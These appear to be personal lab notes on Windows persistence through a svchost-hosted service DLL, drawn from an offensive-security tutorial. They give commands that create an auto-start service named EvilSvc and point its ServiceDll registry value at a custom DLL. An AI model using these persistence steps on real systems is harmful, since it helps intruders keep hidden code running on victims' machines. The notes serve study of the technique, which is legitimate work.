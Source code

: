 https://www.ired.team/offensive-security/persistence/persisting-in-svchost.exe-with-a-service-dll-servicemain

failed:
![](./service_dll_for_svchost/servicedll.png)
 
Theory on svchost :  https://www.geoffchappell.com/studies/windows/win32/services/svchost/index.htm?tx=21%2C22

official guide on servicehost: https://docs.microsoft.com/en-us/windows/win32/services/writing-a-servicemain-function

1. Another attempt at creating a service dll

https://github.com/apriorit/SvcHostDemo/blob/master/src/SvcHostDemo/SvcHostDemo.cpp

status : Build succeeded on this.

2. So lets now create a service Evilsvc

`sc.exe create EvilSvc binPath= "c:\windows\System32\svchost.exe -k DcomLaunch" type= share start= auto`

status : done

```
C:\Windows\system32>sc.exe create EvilSvc binPath= "c:\windows\System32\svchost.exe -k DcomLaunch" type= share start= auto
[SC] CreateService SUCCESS
```

3. modify the service dll path

`reg add HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "D:\VS Studio projects\svchost_dll\Debug\svchostdll.dll" /f`
